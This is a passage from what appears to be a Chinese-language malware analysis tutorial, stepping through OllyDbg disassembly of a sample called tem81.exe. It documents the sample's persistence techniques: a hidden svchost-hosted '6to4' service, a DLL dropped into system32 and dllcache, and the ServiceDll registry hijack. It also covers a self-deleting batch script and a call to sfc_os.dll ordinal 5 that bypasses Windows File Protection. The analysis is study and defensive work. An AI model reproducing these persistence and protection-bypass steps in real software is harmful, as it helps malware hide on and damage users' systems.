0040117C   > \\8D85 B0F9FFFF lea     eax, \[ebp-650\]                   ;  eax = 6to4  
00401182   .  8945 FC       mov     \[ebp-4\], eax                     ;  \[0012FFBC\]="6to4"  
00401185   >  8B45 FC       mov     eax, \[ebp-4\]                     ;  eax = 6to4  
00401188   .  0FBE00        movsx   eax, byte ptr \[eax\]              ;  取 eax 中第一个字符  
0040118B   .  85C0          test    eax, eax                         ;  判断第一个字符是否为空  
0040118D   .  0F84 92010000 je      00401325                         ;  为空则跳  
00401193   .  6A 00         push    0                                ; /Password = NULL  
00401195   .  6A 00         push    0                                ; |ServiceStartName = NULL  
00401197   .  6A 00         push    0                                ; |pDependencies = NULL  
00401199   .  6A 00         push    0                                ; |pTagId = NULL  
0040119B   .  6A 00         push    0                                ; |LoadOrderGroup = NULL  
0040119D   .  68 C8214000   push    004021C8                         ; |BinaryPathName = "%SystemRoot%\\System32\\svchost.exe -k netsvcs"  
004011A2   .  6A 01         push    1                                ; |ErrorControl = SERVICE\_ERROR\_NORMAL  
004011A4   .  6A 02         push    2                                ; |StartType = SERVICE\_AUTO\_START  
004011A6   .  6A 20         push    20                               ; |ServiceType = SERVICE\_WIN32\_SHARE\_PROCESS  
004011A8   .  6A 10         push    10                               ; |DesiredAccess = SERVICE\_START  
004011AA   .  FF75 FC       push    dword ptr \[ebp-4\]                ; |DisplayName = "6to4"  
004011AD   .  FF75 FC       push    dword ptr \[ebp-4\]                ; |ServiceName = "6to4"  
004011B0   .  FF75 F8       push    dword ptr \[ebp-8\]                ; |hManager = 00156CB0  
004011B3   .  FF15 04204000 call    \[<&ADVAPI32.CreateServiceA>\]     ; \\CreateServiceA  
004011B9   .  8945 E4       mov     \[ebp-1C\], eax                    ;  返回值传给\[0012FFA4\]  
004011BC   .  837D E4 00    cmp     dword ptr \[ebp-1C\], 0            ;  函数调用是否成功  
004011C0   .  0F84 3E010000 je      00401304                         ;  成功  
004011C6   .  68 04010000   push    104                              ; /BufSize = 104 (260.)  
004011CB   .  8D85 98F7FFFF lea     eax, \[ebp-868\]                   ; |  
004011D1   .  50            push    eax                              ; |Buffer = 0012F758  
004011D2   .  FF15 54204000 call    \[<&KERNEL32.GetSystemDirectoryA>>; \\GetSystemDirectoryA  
004011D8   .  68 04010000   push    104                              ; /n = 104 (260.)  
004011DD   .  6A 00         push    0                                ; |c = 00  
004011DF   .  8D85 A8F8FFFF lea     eax, \[ebp-758\]                   ; |  
004011E5   .  50            push    eax                              ; |s = 0012F868  
004011E6   .  E8 A90A0000   call    <jmp.&MSVCRT.memset>             ; \\memset  
004011EB   .  83C4 0C       add     esp, 0C  
004011EE   .  FF75 FC       push    dword ptr \[ebp-4\]                ; /"6to4"  
004011F1   .  8D85 98F7FFFF lea     eax, \[ebp-868\]                   ; |  
004011F7   .  50            push    eax                              ; |<%s> = "C:\\WINDOWS\\system32"  
004011F8   .  68 F8214000   push    004021F8                         ; |Format = "%s\\%s.dll"  
004011FD   .  8D85 A8F8FFFF lea     eax, \[ebp-758\]                   ; |  
00401203   .  50            push    eax                              ; |s = 0012F868  
00401204   .  FF15 E0204000 call    \[<&USER32.wsprintfA>\]            ; \\wsprintfA  
0040120A   .  83C4 10       add     esp, 10  
0040120D   .  8D85 A8F8FFFF lea     eax, \[ebp-758\]                   ;  C:\\WINDOWS\\system32\\6to4.dll  
00401213   .  50            push    eax                              ; /Arg1 = "C:\\WINDOWS\\system32\\6to4.dll"  
00401214   .  E8 10070000   call    00401929                         ; \\tem81.00401929  
上面的代码用于创建 6to4 这个服务~~  
  
代码调用一个 00401929，我们进入这个函数看看~~  
00401929  /$  55            push    ebp  
0040192A  |.  8BEC          mov     ebp, esp  
0040192C  |.  81EC 50020000 sub     esp, 250  
00401932  |.  8365 FC 00    and     dword ptr \[ebp-4\], 0  
00401936  |.  834D F0 FF    or      dword ptr \[ebp-10\], FFFFFFFF  
0040193A  |.  8365 E8 00    and     dword ptr \[ebp-18\], 0  
0040193E  |.  8365 C4 00    and     dword ptr \[ebp-3C\], 0  
00401942  |.  8365 C8 00    and     dword ptr \[ebp-38\], 0  
00401946  |.  FF75 08       push    dword ptr \[ebp+8\]                ; /Path = "C:\\WINDOWS\\system32\\6to4.dll"  
00401949  |.  FF15 D4204000 call    \[<&SHLWAPI.PathFileExistsA>\]     ; \\PathFileExistsA  
0040194F  |.  83F8 01       cmp     eax, 1                           ;  判断系统目录下这个 DLL 是否存在  
00401952  |.  75 18         jnz     short 0040196C                   ;  存在，就不跳，不存在就跳  
  
因为我们的系统中没有 6to4 这个文件，则将跳到 0040196C 处  
0040196C  |>  C745 EC 02000>mov     dword ptr \[ebp-14\], 2  
00401973  |.  8365 F4 00    and     dword ptr \[ebp-C\], 0  
00401977  |>  6A 00         push    0                                ; /hTemplateFile = NULL  
00401979  |.  6A 00         push    0                                ; |Attributes = 0  
0040197B  |.  FF75 EC       push    dword ptr \[ebp-14\]               ; |Mode = CREATE\_ALWAYS  
0040197E  |.  6A 00         push    0                                ; |pSecurity = NULL  
00401980  |.  6A 00         push    0                                ; |ShareMode = 0  
00401982  |.  68 000000C0   push    C0000000                         ; |Access = GENERIC\_READ|GENERIC\_WRITE  
00401987  |.  FF75 08       push    dword ptr \[ebp+8\]                ; |FileName = "C:\\WINDOWS\\system32\\6to4.dll"  
0040198A  |.  FF15 A8204000 call    \[<&KERNEL32.CreateFileA>\]        ; \\CreateFileA  
00401990  |.  8945 F0       mov     \[ebp-10\], eax  
00401993  |.  837D F0 FF    cmp     dword ptr \[ebp-10\], -1  
00401997  |.  75 07         jnz     short 004019A0                   ;  创建成功，则跳转  
00401999  |.  33C0          xor     eax, eax  
0040199B  |.  E9 65010000   jmp     00401B05  
004019A0  |>  6A 00         push    0                                ; /Origin = FILE\_BEGIN  
004019A2  |.  6A 00         push    0                                ; |pOffsetHi = NULL  
004019A4  |.  FF75 F4       push    dword ptr \[ebp-C\]                ; |OffsetLo  
004019A7  |.  FF75 F0       push    dword ptr \[ebp-10\]               ; |hFile = 前面 CreateFileA 的文件句柄  
004019AA  |.  FF15 A4204000 call    \[<&KERNEL32.SetFilePointer>\]     ; \\SetFilePointer，设置文件位置为开始  
004019B0  |.  6A 18         push    18                               ; /n = 18 (24.)  
004019B2  |.  6A 00         push    0                                ; |c = 00  
004019B4  |.  8D45 D0       lea     eax, \[ebp-30\]                    ; |  
004019B7  |.  50            push    eax                              ; |s = 0012F1F4  
004019B8  |.  E8 D7020000   call    <jmp.&MSVCRT.memset>             ; \\memset  
004019BD  |.  83C4 0C       add     esp, 0C  
004019C0  |.  8D45 E0       lea     eax, \[ebp-20\]  
004019C3  |.  50            push    eax                              ; /pLastWrite = 0012F204  
004019C4  |.  8D45 D8       lea     eax, \[ebp-28\]                    ; |  
004019C7  |.  50            push    eax                              ; |pLastAccess = 0012F1FC  
004019C8  |.  8D45 D0       lea     eax, \[ebp-30\]                    ; |  
004019CB  |.  50            push    eax                              ; |pCreationTime = 0012F1F4  
004019CC  |.  FF75 F0       push    dword ptr \[ebp-10\]               ; |hFile  
004019CF  |.  FF15 7C204000 call    \[<&KERNEL32.GetFileTime>\]        ; \\GetFileTime 得到文件的时间  
004019D5  |.  68 1C234000   push    0040231C                         ; /ResourceType = "FILE"  
004019DA  |.  6A 66         push    66                               ; |ResourceName = 66  
004019DC  |.  6A 00         push    0                                ; |hModule = NULL  
004019DE  |.  FF15 78204000 call    \[<&KERNEL32.FindResourceW>\]      ; \\FindResourceW  
004019E4  |.  8945 E8       mov     \[ebp-18\], eax  
004019E7  |.  FF75 E8       push    dword ptr \[ebp-18\]               ; /hResource  
004019EA  |.  6A 00         push    0                                ; |hModule = NULL  
004019EC  |.  FF15 38204000 call    \[<&KERNEL32.LoadResource>\]       ; \\LoadResource  
004019F2  |.  8945 C4       mov     \[ebp-3C\], eax  
004019F5  |.  FF75 C4       push    dword ptr \[ebp-3C\]               ; /nHandles  
004019F8  |.  FF15 74204000 call    \[<&KERNEL32.LockResource>\]       ; \\SetHandleCount  
004019FE  |.  8945 C8       mov     \[ebp-38\], eax  
00401A01  |.  FF75 E8       push    dword ptr \[ebp-18\]               ; /hResource  
00401A04  |.  6A 00         push    0                                ; |hModule = NULL  
00401A06  |.  FF15 4C204000 call    \[<&KERNEL32.SizeofResource>\]     ; \\SizeofResource  
00401A0C  |.  8945 CC       mov     \[ebp-34\], eax                    ;  得到的资源大小为 4C00  
00401A0F  |.  8B45 C8       mov     eax, \[ebp-38\]  
00401A12  |.  0345 F4       add     eax, \[ebp-C\]  
00401A15  |.  8945 FC       mov     \[ebp-4\], eax  
00401A18  |.  6A 00         push    0                                ; /pOverlapped = NULL  
00401A1A  |.  8D45 F8       lea     eax, \[ebp-8\]                     ; |  
00401A1D  |.  50            push    eax                              ; |pBytesWritten = 0012F21C  
00401A1E  |.  8B45 CC       mov     eax, \[ebp-34\]                    ; |  
00401A21  |.  2B45 F4       sub     eax, \[ebp-C\]                     ; |  
00401A24  |.  50            push    eax                              ; |nBytesToWrite = 4C00(19456)  
00401A25  |.  FF75 FC       push    dword ptr \[ebp-4\]                ; |Buffer = 404070  
00401A28  |.  FF75 F0       push    dword ptr \[ebp-10\]               ; |hFile  
00401A2B  |.  FF15 40204000 call    \[<&KERNEL32.WriteFile>\]          ; \\WriteFile 将程序中包含的 FILE 资源写入到创建的文件中  
00401A31  |.  85C0          test    eax, eax  
00401A33  |.  75 19         jnz     short 00401A4E                   ;  写入成功  
00401A35  |.  FF75 F0       push    dword ptr \[ebp-10\]               ; /hObject  
00401A38  |.  FF15 88204000 call    \[<&KERNEL32.CloseHandle>\]        ; \\CloseHandle  
00401A3E  |.  FF75 C4       push    dword ptr \[ebp-3C\]               ; /hResource  
00401A41  |.  FF15 A0204000 call    \[<&KERNEL32.FreeResource>\]       ; \\FreeResource  
00401A47  |.  33C0          xor     eax, eax  
00401A49  |.  E9 B7000000   jmp     00401B05  
00401A4E  |>  6A 00         push    0                                ; /Origin = FILE\_BEGIN  
00401A50  |.  6A 00         push    0                                ; |pOffsetHi = NULL  
00401A52  |.  FF75 CC       push    dword ptr \[ebp-34\]               ; |OffsetLo = 4C00  
00401A55  |.  FF75 F0       push    dword ptr \[ebp-10\]               ; |hFile  
00401A58  |.  FF15 A4204000 call    \[<&KERNEL32.SetFilePointer>\]     ; \\SetFilePointer  
00401A5E  |.  FF75 F0       push    dword ptr \[ebp-10\]               ; /hFile  
00401A61  |.  FF15 98204000 call    \[<&KERNEL32.SetEndOfFile>\]       ; \\SetEndOfFile  
00401A67  |.  8D45 E0       lea     eax, \[ebp-20\]  
00401A6A  |.  50            push    eax                              ; /pLastWrite  
00401A6B  |.  8D45 D8       lea     eax, \[ebp-28\]                    ; |  
00401A6E  |.  50            push    eax                              ; |pLastAccess  
00401A6F  |.  8D45 D0       lea     eax, \[ebp-30\]                    ; |  
00401A72  |.  50            push    eax                              ; |CreatTime = 0012F1F4  
00401A73  |.  FF75 F0       push    dword ptr \[ebp-10\]               ; |hFile  
00401A76  |.  FF15 3C204000 call    \[<&KERNEL32.SetFileTime>\]        ; \\SetFileTime  
00401A7C  |.  68 28234000   push    00402328                         ; /s2 = "dllcache"  
00401A81  |.  FF75 08       push    dword ptr \[ebp+8\]                ; |s1 = "C:\\Windows\\System32\\6to4.dll"  
00401A84  |.  FF15 C4204000 call    \[<&MSVCRT.strstr>\]               ; \\strstr  
00401A8A  |.  59            pop     ecx             ; 上面比较字符串中是否含有 dllcache  
00401A8B  |.  59            pop     ecx  
00401A8C  |.  85C0          test    eax, eax  
00401A8E  |.  75 60         jnz     short 00401AF0  
00401A90  |.  6A 5C         push    5C                               ; /c = 5C  ('\\')  
00401A92  |.  FF75 08       push    dword ptr \[ebp+8\]                ; |s = "C:\\WINDOWS\\system32\\6to4.dll"  
00401A95  |.  FF15 BC204000 call    \[<&MSVCRT.strrchr>\]              ; \\strrchr  
00401A9B  |.  59            pop     ecx  
00401A9C  |.  59            pop     ecx  
00401A9D  |.  40            inc     eax  
00401A9E  |.  50            push    eax                              ; /"6to4.dll"  
00401A9F  |.  8D85 B8FEFFFF lea     eax, \[ebp-148\]                   ; |  
00401AA5  |.  50            push    eax                              ; |String1 = 0012F0DC  
00401AA6  |.  FF15 94204000 call    \[<&KERNEL32.lstrcpyA>\]           ; \\lstrcpyA  
00401AAC  |.  68 04010000   push    104                              ; /BufSize = 104 (260.)  
00401AB1  |.  8D85 B0FDFFFF lea     eax, \[ebp-250\]                   ; |  
00401AB7  |.  50            push    eax                              ; |Buffer = 0012EFD4  
00401AB8  |.  FF15 54204000 call    \[<&KERNEL32.GetSystemDirectoryA>>; \\GetSystemDirectoryA  
00401ABE  |.  68 34234000   push    00402334                         ; /StringToAdd = "\\dllcache\\"  
00401AC3  |.  8D85 B0FDFFFF lea     eax, \[ebp-250\]                   ; |  
00401AC9  |.  50            push    eax                              ; |ConcatString = "C:\\WINDOWS\\system32"  
00401ACA  |.  FF15 58204000 call    \[<&KERNEL32.lstrcatA>\]           ; \\lstrcatA  
00401AD0  |.  8D85 B8FEFFFF lea     eax, \[ebp-148\]  
00401AD6  |.  50            push    eax                              ; /"6to4.dll"  
00401AD7  |.  8D85 B0FDFFFF lea     eax, \[ebp-250\]                   ; |  
00401ADD  |.  50            push    eax                              ; |ConcatString = "C:\\WINDOWS\\system32\\dllcache\\"  
00401ADE  |.  FF15 58204000 call    \[<&KERNEL32.lstrcatA>\]           ; \\lstrcatA  
00401AE4  |.  8D85 B0FDFFFF lea     eax, \[ebp-250\]  
00401AEA  |.  50            push    eax                              ; /Arg1 = 0012EFD4  ASCII "C:\\WINDOWS\\system32\\dllcache\\6to4"  
00401AEB  |.  E8 39FEFFFF   call    00401929                         ; \\tem81.00401929    ----->这里用来在 C:\\windows\\system32\\dllcache\\6to4.dll"文件  
00401AF0  |> \\FF75 F0       push    dword ptr \[ebp-10\]               ; /hObject = 0000007C (window)  
00401AF3  |.  FF15 88204000 call    \[<&KERNEL32.CloseHandle>\]        ; \\CloseHandle  
00401AF9  |.  FF75 C4       push    dword ptr \[ebp-3C\]               ; /hResource  
00401AFC  |.  FF15 A0204000 call    \[<&KERNEL32.FreeResource>\]       ; \\FreeResource  
00401B02  |.  33C0          xor     eax, eax  
00401B04  |.  40            inc     eax  
00401B05  |>  C9            leave  
00401B06  \\.  C2 0400       retn    4  
  
总结一下，上面的函数用来创建一个 DLL 文件，这个 DLL 文件是通过参数传递过来的~~  
首先判断系统目录下是否存在这个 DLL，如果不存在，则在系统目录和 dllcache 目录下分别创建该 DLL 文件，通过比较创建的文件路径中是否包含 dllcache 来判断，是否两个地方都创建成功了，当第二次在 dllcache 中创建成功之后，程序退出~~  
(上面创建的新 DLL 中的内容是程序资源中 FILE 资源的内容,下面我会专门来讲讲这个资源的)  
如果这个 DLL 存在，我们在通过下面的分析，看它又做了什么~~嘿嘿~~  
  
上面的程序执行完成之后会返回~~  
00401219   .  85C0          test    eax, eax                         ;  上面函数的返回值  
0040121B   .  75 0A         jnz     short 00401227                   ;  如果函数调用成功，则跳  
跳到如下地址：  
00401227   > \\68 00040000   push    400                              ; /n = 400 (1024.)  
0040122C   .  6A 00         push    0                                ; |c = 00  
0040122E   .  8D85 98F3FFFF lea     eax, \[ebp-C68\]                   ; |  
00401234   .  50            push    eax                              ; |s = 0012F358  
00401235   .  E8 5A0A0000   call    <jmp.&MSVCRT.memset>             ; \\memset  
0040123A   .  83C4 0C       add     esp, 0C  
0040123D   .  FF75 FC       push    dword ptr \[ebp-4\]                ; /<%s> = "6to4"  
00401240   .  68 04224000   push    00402204                         ; |Format = "SYSTEM\\CurrentControlSet\\Services\\%s"  
00401245   .  8D85 98F3FFFF lea     eax, \[ebp-C68\]                   ; |  
0040124B   .  50            push    eax                              ; |0012F358  
0040124C   .  FF15 E0204000 call    \[<&USER32.wsprintfA>\]            ; \\wsprintfA  
00401252   .  83C4 0C       add     esp, 0C  
00401255   .  8D85 A4F8FFFF lea     eax, \[ebp-75C\]  
0040125B   .  50            push    eax                              ; /pHandle  
0040125C   .  68 1F000200   push    2001F                            ; |Access = KEY\_QUERY\_VALUE|KEY\_SET\_VALUE|KEY\_CREATE\_SUB\_KEY|KEY\_ENUMERATE\_SUB\_KEYS|KEY\_NOTIFY|20000  
00401261   .  6A 00         push    0                                ; |Reserved = 0  
00401263   .  8D85 98F3FFFF lea     eax, \[ebp-C68\]                   ; |  
00401269   .  50            push    eax                              ; |Subkey = "SYSTEM\\CurrentControlSet\\Services\\6to4  
0040126A   .  68 02000080   push    80000002                         ; |hKey = HKEY\_LOCAL\_MACHINE  
0040126F   .  FF15 1C204000 call    \[<&ADVAPI32.RegOpenKeyExA>\]      ; \\RegOpenKeyExA  
00401275   .  8D45 F4       lea     eax, \[ebp-C\]  
00401278   .  50            push    eax                              ; /pDisposition  
00401279   .  8D85 A4F8FFFF lea     eax, \[ebp-75C\]                   ; |  
0040127F   .  50            push    eax                              ; |pHandle  
00401280   .  6A 00         push    0                                ; |pSecurity = NULL  
00401282   .  68 3F000F00   push    0F003F                           ; |Access = KEY\_ALL\_ACCESS  
00401287   .  6A 00         push    0                                ; |Options = REG\_OPTION\_NON\_VOLATILE  
00401289   .  6A 00         push    0                                ; |Class = NULL  
0040128B   .  6A 00         push    0                                ; |Reserved = 0  
0040128D   .  68 2C224000   push    0040222C                         ; |Subkey = "Parameters"  
00401292   .  FFB5 A4F8FFFF push    dword ptr \[ebp-75C\]              ; |hKey  
00401298   .  FF15 18204000 call    \[<&ADVAPI32.RegCreateKeyExA>\]    ; \\RegCreateKeyExA  
0040129E   .  8D85 A8F8FFFF lea     eax, \[ebp-758\]  
004012A4   .  50            push    eax                              ; /String = "C:\\WINDOWS\\system32\\6to4.dll"  
004012A5   .  FF15 9C204000 call    \[<&KERNEL32.lstrlenA>\]           ; \\lstrlenA  
004012AB   .  50            push    eax                              ; /BufSize  
004012AC   .  8D85 A8F8FFFF lea     eax, \[ebp-758\]                   ; |  
004012B2   .  50            push    eax                              ; |Buffer = 0012F868 C:\\WINDOWS\\system32\\6to4.dll  
004012B3   .  6A 02         push    2                                ; |ValueType = REG\_EXPAND\_SZ  
004012B5   .  6A 00         push    0                                ; |Reserved = 0  
004012B7   .  68 38224000   push    00402238                         ; |ValueName = "ServiceDll"  
004012BC   .  FFB5 A4F8FFFF push    dword ptr \[ebp-75C\]              ; |hKey  
004012C2   .  FF15 0C204000 call    \[<&ADVAPI32.RegSetValueExA>\]     ; \\RegSetValueExA  
004012C8   .  FFB5 A4F8FFFF push    dword ptr \[ebp-75C\]              ; /hKey  
004012CE   .  FF15 10204000 call    \[<&ADVAPI32.RegCloseKey>\]        ; \\RegCloseKey  
004012D4   .  6A 00         push    0  
004012D6   .  6A 00         push    0  
004012D8   .  FF75 E4       push    dword ptr \[ebp-1C\]  
004012DB   .  FF15 00204000 call    \[<&ADVAPI32.StartServiceA>\]      ;  advapi32.StartServiceA  
004012E1   .  85C0          test    eax, eax  
004012E3   .  75 06         jnz     short 004012EB                   ;  跳转  
004012E5   .  EB 1D         jmp     short 00401304  
004012E7   .  EB 1B         jmp     short 00401304  
004012E9   .  EB 19         jmp     short 00401304  
004012EB   >  FF75 E4       push    dword ptr \[ebp-1C\]  
004012EE   .  FF15 30204000 call    \[<&ADVAPI32.CloseServiceHandle>\] ;  advapi32.CloseServiceHandle  
004012F4   .  FF75 F8       push    dword ptr \[ebp-8\]  
004012F7   .  FF15 30204000 call    \[<&ADVAPI32.CloseServiceHandle>\] ;  advapi32.CloseServiceHandle  
004012FD   .  6A 01         push    1                                ; /Arg1 = 00000001  
004012FF   .  E8 D9010000   call    004014DD                         ; \\tem81.004014DD  
  
上面的代码，用于将前面生成的 DLL，做为 SvChost 启动的服务中的注册表参数 ServiceDll = "前面创建的 DLL"  
  
(至于，为什么要这么做，请参考我前面讲的<svchost 进程浅析>，里面已经讲的很详解，为什么这么做了)  
  
然后启动该服务~~~最后函数调用了一个函数 004014DD，这个函数又是做什么的呢？  
0012EC04  63 6F 70 79 20 2F 59 20 22 43 3A 5C 44 4F 43 55  copy /Y "C:\\DOCU  
0012EC14  4D 45 7E 31 5C 41 44 4D 49 4E 49 7E 31 5C 4C 4F  ME~1\\ADMINI~1\\LO  
0012EC24  43 41 4C 53 7E 31 5C 54 65 6D 70 5C 74 65 6D 38  CALS~1\\Temp\\tem8  
0012EC34  31 2E 65 78 65 22 20 22 43 3A 5C 57 49 4E 44 4F  1.exe" "C:\\WINDO  
0012EC44  57 53 5C 73 79 73 74 65 6D 33 32 5C 64 6C 6C 63  WS\\system32\\dllc  
0012EC54  61 63 68 65 5C 73 79 73 74 65 6D 62 6F 78 2E 62  ache\\systembox.b  
0012EC64  61 6B 22 0D 0A 3A 72 75 6E 61 67 61 69 6E 0D 0A  ak"..:runagain..  
0012EC74  64 65 6C 20 22 43 3A 5C 44 4F 43 55 4D 45 7E 31  del "C:\\DOCUME~1  
0012EC84  5C 41 44 4D 49 4E 49 7E 31 5C 4C 4F 43 41 4C 53  \\ADMINI~1\\LOCALS  
0012EC94  7E 31 5C 54 65 6D 70 5C 74 65 6D 38 31 2E 65 78  ~1\\Temp\\tem81.ex  
0012ECA4  65 22 0D 0A 69 66 20 65 78 69 73 74 20 22 43 3A  e"..if exist "C:  
0012ECB4  5C 44 4F 43 55 4D 45 7E 31 5C 41 44 4D 49 4E 49  \\DOCUME~1\\ADMINI  
0012ECC4  7E 31 5C 4C 4F 43 41 4C 53 7E 31 5C 54 65 6D 70  ~1\\LOCALS~1\\Temp  
0012ECD4  5C 74 65 6D 38 31 2E 65 78 65 22 20 67 6F 74 6F  \\tem81.exe" goto  
0012ECE4  20 72 75 6E 61 67 61 69 6E 0D 0A 64 65 6C 20 22   runagain..del "  
0012ECF4  43 3A 5C 44 4F 43 55 4D 45 7E 31 5C 41 44 4D 49  C:\\DOCUME~1\\ADMI  
0012ED04  4E 49 7E 31 5C 4C 4F 43 41 4C 53 7E 31 5C 54 65  NI~1\\LOCALS~1\\Te  
0012ED14  6D 70 5C 54 65 6D 70 44 65 6C 2E 62 61 74 22     mp\\TempDel.bat"  
  
其实就是分配了一些空间，然后创建一个文件  
C:\\DOCUME~1\\ADMIN~1\\LOCALS~1\\Temp\\TempDel.bat  
然后写入上面的内容，最后调用 ShellExecuteA 执行这个批处理，并退出  
批处理的内容如下：  
copy /Y "C:\\DOCUME~1\\ADMINI~1\\LOCALS~1\\Temp\\tem81.exe" "C:\\WINDOWS\\system32\\dllcache\\systembox.bak"  
:runagain  
del "C:\\DOCUME~1\\ADMINI~1\\LOCALS~1\\Temp\\tem81.exe"  
if exist "C:\\DOCUME~1\\ADMINI~1\\LOCALS~1\\Temp\\tem81.exe" goto runagain  
del "C:\\DOCUME~1\\ADMINI~1\\LOCALS~1\\Temp\\TempDel.bat"  
  
就是将临时目录下的文件拷贝到 C:\\WINDOWS\\system32\\dllcache\\systembox.bak,然后删除临时目录下的 tem81.exe,删除自身  
  
上面的程序执行完成之后，退出进程，这样程序就执行完了~~~~  
  
这里我们有个问题，难道程序就这些功能吗？？很明显，前面我们漏掉了一种情况，即当 6to4.dll 本来就存在于系统中的时候，程序又该如何执行，因为上面这次我们已经生成 6to4.dll，所以我们重新将 Crack.exe 改名为 tem81.exe 再次调试进行  
（这里注意了，因为我们第二次调试，执行到创建事件对象那句时，我们之前创建了，会跳向不现的地址，直接删除到程序，因为本病毒不能同时执行，当执行那句，我们手工改一下就可以了）  
  
上面改为之后，前面的代码是一样的，我就不分析了~~我们来看看不一样的地方~~如下地址处：  
004011B9   .  8945 E4       mov     \[ebp-1C\], eax                    ;  返回值传给\[0012FFA4\]  
004011BC   .  837D E4 00    cmp     dword ptr \[ebp-1C\], 0            ;  函数调用是否成功  
004011C0   .  0F84 3E010000 je      00401304                         ;  成功  
  
这里因为系统目录下有 6to4.dll 这个 DLL，所以直接跳转到了如下地址处，不用进行重新创建一个新的 DLL 的操作：  
（这里程序出错了，当用 CloseServiceHandle 时，可能是这个 6to4，不是系统原来的 DLL 导致的，也可能是我们更改了那句跳转的原因）  
当我们查看服务列表时，会多出一个服务 6to4,启动类型:自动,登录为：本地系统  
  
由于这种原因，导致无法在调试，我不得不恢复虚拟机，然后在重新调试一下~~不过这次我将先在系统目录下先放一个 6to4.dll 文件  
  
哈哈，这次可以了，我将虚拟机快照恢复，然后将 6to4.dll 放入系统目录，然后 OD 载入，来到如下地址处：  
0040192C  |.  81EC 50020000 sub     esp, 250  
00401932  |.  8365 FC 00    and     dword ptr \[ebp-4\], 0  
00401936  |.  834D F0 FF    or      dword ptr \[ebp-10\], FFFFFFFF  
0040193A  |.  8365 E8 00    and     dword ptr \[ebp-18\], 0  
0040193E  |.  8365 C4 00    and     dword ptr \[ebp-3C\], 0  
00401942  |.  8365 C8 00    and     dword ptr \[ebp-38\], 0  
00401946  |.  FF75 08       push    dword ptr \[ebp+8\]                ; /Path  
00401949  |.  FF15 D4204000 call    \[<&SHLWAPI.PathFileExistsA>\]     ; \\PathFileExistsA  
0040194F  |.  83F8 01       cmp     eax, 1  
00401952  |.  75 18         jnz     short 0040196C  
00401954  |.  FF75 08       push    dword ptr \[ebp+8\]  
00401957  |.  E8 D5FEFFFF   call    00401831  
  
上面的代码，不持这个 o4.dll 的代码中，而是调用了一个 00401831 的函数，我们就来看看这个函数在做什么~~  
00401831   $  55            push    ebp  
00401832   .  8BEC          mov     ebp, esp  
00401834   .  81EC AC080000 sub     esp, 8AC  
0040183A   .  57            push    edi  
0040183B   .  83A5 5CFFFFFF>and     dword ptr \[ebp-A4\], 0  
00401842   .  8365 FC 00    and     dword ptr \[ebp-4\], 0  
00401846   .  83A5 54F7FFFF>and     dword ptr \[ebp-8AC\], 0  
0040184D   .  68 94000000   push    94                               ; /n = 94 (148.)  
00401852   .  6A 00         push    0                                ; |c = 00  
00401854   .  8D85 60FFFFFF lea     eax, \[ebp-A0\]                    ; |  
0040185A   .  50            push    eax                              ; |s = 0012EF28  
0040185B   .  E8 34040000   call    <jmp.&MSVCRT.memset>             ; \\memset  
00401860   .  83C4 0C       add     esp, 0C  
00401863   .  C785 60FFFFFF>mov     dword ptr \[ebp-A0\], 94  
0040186D   .  8D85 60FFFFFF lea     eax, \[ebp-A0\]  
00401873   .  50            push    eax                              ; /pVersionInformation  
00401874   .  FF15 84204000 call    \[<&KERNEL32.GetVersionExA>\]      ; \\GetVersionExA  
0040187A   .  83BD 68FFFFFF>cmp     dword ptr \[ebp-98\], 2            ;  判断系统版本  
00401881   .  75 0C         jnz     short 0040188F  
00401883   .  C785 5CFFFFFF>mov     dword ptr \[ebp-A4\], 00402308     ;  ASCII "sfc\_os.dll"  
0040188D   .  EB 0A         jmp     short 00401899  
0040188F   >  C785 5CFFFFFF>mov     dword ptr \[ebp-A4\], 00402314     ;  ASCII "sfc.dll"  
00401899   >  68 00080000   push    800                              ; /n = 800 (2048.)  
0040189E   .  6A 00         push    0                                ; |c = 00  
004018A0   .  8D85 58F7FFFF lea     eax, \[ebp-8A8\]                   ; |  
004018A6   .  50            push    eax                              ; |s = 0012E720  
004018A7   .  E8 E8030000   call    <jmp.&MSVCRT.memset>             ; \\memset  
004018AC   .  83C4 0C       add     esp, 0C  
004018AF   .  FF75 08       push    dword ptr \[ebp+8\]                ; /"C:\\WINDOWS\\system32\\6to4.dll"  
004018B2   .  FF15 9C204000 call    \[<&KERNEL32.lstrlenA>\]           ; \\lstrlenA  
004018B8   .  50            push    eax                              ; /WideBufSize = 1C  
004018B9   .  8D85 58F7FFFF lea     eax, \[ebp-8A8\]                   ; |  
004018BF   .  50            push    eax                              ; |WideCharBuf = 0012E720  
004018C0   .  FF75 08       push    dword ptr \[ebp+8\]                ; |/String = "C:\\WINDOWS\\system32\\6to4.dll"  
004018C3   .  FF15 9C204000 call    \[<&KERNEL32.lstrlenA>\]           ; |\\lstrlenA  
004018C9   .  50            push    eax                              ; |StringSize = 1C  
004018CA   .  FF75 08       push    dword ptr \[ebp+8\]                ; |StringToMap  
004018CD   .  6A 00         push    0                                ; |Options = 0  
004018CF   .  6A 00         push    0                                ; |CodePage = CP\_ACP  
004018D1   .  FF15 B0204000 call    \[<&KERNEL32.MultiByteToWideChar>>; \\MultiByteToWideChar  
004018D7   .  FFB5 5CFFFFFF push    dword ptr \[ebp-A4\]               ; /FileName = "sfc.dll"  
004018DD   .  FF15 70204000 call    \[<&KERNEL32.LoadLibraryA>\]       ; \\LoadLibraryA  
004018E3   .  8985 54F7FFFF mov     \[ebp-8AC\], eax                   ;  \[0012E71C\] = 76B80000  
004018E9   .  6A 05         push    5                                ; /ProcNameOrOrdinal = #5  
004018EB   .  FFB5 54F7FFFF push    dword ptr \[ebp-8AC\]              ; |hModule  
004018F1   .  FF15 68204000 call    \[<&KERNEL32.GetProcAddress>\]     ; \\GetProcAddress  
004018F7   .  8945 FC       mov     \[ebp-4\], eax  
004018FA   .  6A FF         push    -1  
004018FC   .  8D85 58F7FFFF lea     eax, \[ebp-8A8\]  
00401902   .  50            push    eax                              ;  eax = C:\\Windows\\system32\\6to4.dll  
00401903   .  6A 00         push    0  
00401905   .  68 15194000   push    00401915  
0040190A   .  8BFF          mov     edi, edi  
0040190C   .  55            push    ebp  
0040190D   .  8B45 FC       mov     eax, \[ebp-4\]                     ;  sfc.#5  
00401910   .  83C0 03       add     eax, 3  
00401913   .- FFE0          jmp     eax                              ;  sfc.76B81206  
00401915   .  FFB5 54F7FFFF push    dword ptr \[ebp-8AC\]              ; /hLibModule  
0040191B   .  FF15 5C204000 call    \[<&KERNEL32.FreeLibrary>\]        ; \\FreeLibrary  
00401921   .  33C0          xor     eax, eax  
00401923   .  40            inc     eax  
00401924   .  5F            pop     edi  
00401925   .  C9            leave  
